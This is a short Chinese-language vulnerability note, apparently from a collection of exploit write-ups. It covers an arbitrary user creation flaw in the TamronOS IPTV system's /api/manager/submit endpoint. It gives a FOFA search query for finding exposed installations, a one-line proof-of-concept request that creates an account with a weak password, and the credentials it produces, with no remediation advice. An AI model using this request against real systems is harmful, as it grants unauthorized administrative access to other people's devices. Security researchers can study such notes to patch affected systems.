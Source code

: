 # TamronOS-IPTV系统-submit-任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

> [!NOTE]
>
> TamronOS IPTV系统

## FOFA

> [!NOTE]
>
> app="TamronOS-IPTV系统"

## 漏洞复现

登录页面如下

![image-20210615145308242](TamronOS-IPTV系统-submit-任意用户创建漏洞.assets/1627363143125626.jpg)

漏洞POC为

```
/api/manager/submit?group=1&username=test&password=123456
```

![image-20210615145547635](TamronOS-IPTV系统-submit-任意用户创建漏洞.assets/1627363143348423.jpg)

```
user: test
pass: 123456
```

![image-20210615145605871](TamronOS-IPTV系统-submit-任意用户创建漏洞.assets/1627363143653307.jpg)